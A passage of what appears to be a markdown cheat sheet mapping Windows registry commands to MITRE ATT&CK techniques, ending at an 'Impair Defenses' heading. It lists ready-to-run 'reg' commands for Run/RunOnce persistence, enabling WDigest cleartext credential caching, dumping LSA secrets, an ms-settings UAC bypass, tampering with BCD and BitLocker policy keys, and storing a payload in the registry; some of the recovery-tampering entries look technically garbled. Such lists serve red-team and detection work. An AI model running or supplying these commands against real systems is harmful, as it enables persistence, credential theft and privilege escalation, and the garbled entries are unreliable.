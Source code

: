 ```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v ExampleKey /t REG_SZ /d "C:\Path\To\Payload.exe" /f
```

- **Command for Adding a RunOnce Key:**

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce /v ExampleKey /t REG_SZ /d "C:\Path\To\Payload.exe" /f
```
  
### OS Credential Dumping (T1003)

```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

   
- **Command for Accessing LSA Secrets Registry:**
```
 reg save HKLM\SECURITY\Policy\Secrets C:\Path\To\DumpedSecrets.hiv
```  

### Abuse Elevation Control Mechanism: Bypass User Account Control (T1548.002)

- **Command for Modifying UAC Bypass Registry Key:**

```
reg add HKCU\Software\Classes\ms-settings\shell\open\command /v ExampleKey /t REG_SZ /d "C:\Path\To\Payload.exe" /f
``` 

### Inhibit System Recovery (T1490)

- **Command for Modifying BCD Objects Registry Key:**
```
reg add HKLM\BCD00000000\Objects /v ExampleKey /t REG_SZ /d "C:\Path\To\Payload.exe" /f
```

- **Command for Modifying BitLocker Ransomware Registry:**
```
reg add HKLM\SOFTWARE\Policies\Microsoft\FVE /v ExampleKey /t REG_SZ /d "C:\Path\To\Payload.exe" /f
``` 

### Execution Guardrails (T1480.001)

- **Command for Storing Payload in Registry:**

```
reg add HKCU\SOFTWARE /v ExampleKey /t REG_BINARY /d 0x4D5A90000300000004000000... /f 
```



### Impair Defenses (T1562)
